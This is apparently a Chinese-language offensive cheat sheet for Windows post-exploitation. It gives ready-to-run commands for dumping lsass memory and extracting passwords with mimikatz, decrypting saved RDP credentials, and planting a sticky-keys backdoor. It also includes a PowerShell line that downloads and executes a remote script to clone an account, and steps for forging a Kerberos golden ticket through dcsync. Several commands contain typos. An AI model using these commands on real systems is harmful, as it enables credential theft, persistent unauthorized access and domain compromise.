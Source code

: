 🚀利用procdump导出内存文件  
procdump.exe -accepteula -ma lsass.exe lsass.dmp  
使用mimikatz抓取密码  
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log hash.txt" "sekurlsa::logonPasswords full" "exit"

🚀离线获取系统保存的RDP密码  
查询远程连接记录  
reg query "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Terminal Server Client\\Servers" /s  
上传procdump获取内存文件, procdump执行如下命令:  
procdump.exe -accepteula -ma lsass.exe lsass.dmp  
解密出明文RDP连接密码, mimikatz执行如下命令:  
privilege::debug  
dpapi::cred /in:{凭证文件}  
sekurlsa::minidump lsass.dmp  
sekurlsa::dpapi  
dpapi::cred /in:{凭证文件} /masterkey:{MasterKey}  
exit

🚀利用PowerShell导出内存  
powershell -c "rundll32 C:\\windows\\system32\\comsvcs.dll MiniDump {pid} {output} full"  
获取保存到注册表中的密码  
REG query HKCU /v "pwd" /s"

---

### Win-权限维持

🚀  
粘滞键后门  
pushd C:\\windows\\system32  
move sethc.exe sethc.exe.bak  
copy cmd.exe sethc.exe

🚀 克隆账号  
将一个账号当前的权限以及账号相关信息克隆到另外一个新账户中, 如果被克隆账号被禁用, 则无法克隆  
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Create-Clone.ps1'); Create-Clone -u support -p P@ssw0rd

🚀 伪造黄金票据(伪造TGT)  
伪造条件：需要伪造的域管理员用户名、完整的域名、域SID、krbtgt的NTLM Hash或AES-256值  
注意事项：伪造用户可以是任意用户（TGT的加密是由krbtgt完成的，只要TGT被krbtgt账户密码正确加密，那么任意KDC使用krbtgt解密TGT中的信息也是可信的）  
获取管理员账号  
net group "domain admins" /domain  
获取域名  
ipconfig /all  
获取域SID  
wmic useraccount get name,sid //获取域内所有用户sid  
whomai /user //获取当前用户sid  
导出krbtgt的ntml hash (使用mimikatz工具的dcsysc功能远程转储活动目录的ntds.dit并导出krbtgt账号信息)  
minikatz.exe "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit  
清空票据 mimikatz中输入如下命令  
kerberos::purge 或者 klist purge  
生成票据  
kerberos::golden /admin:administrator /domain:test.com /sid:S-1-5-21-593020204-2933201490-533286667 /krbtgt:8894a0f0182bff68e84bd7ba767ac8ed /ticket:golden.kiribi  
传递票据并注入(如果上一步用的/ptt参数就跳过这一步)  
Kerberos::ptt golden.kiribi  
查看当前会话中的票据  
Kerberos::tgt  
验证权限  
dir \\dc\\c\$
